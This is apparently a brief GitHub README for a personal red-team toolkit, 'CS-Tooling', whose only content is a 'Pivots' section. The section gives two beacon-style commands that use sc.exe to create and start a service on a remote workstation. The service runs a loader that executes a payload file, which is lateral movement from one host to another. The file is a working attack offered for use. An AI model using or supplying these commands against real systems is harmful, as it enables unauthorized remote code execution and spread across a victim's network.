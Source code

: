# CS-Tooling
Random tools that i wrote/found.

Pivots?:

```
run sc.exe \\Wkstn-2 create piv1 displayname=piv1 binpath= "C:\\loader.exe.exe http.bin" start=demand

run sc.exe \\Wkstn-2 start piv1
```

pivots with scheduled tasks?
no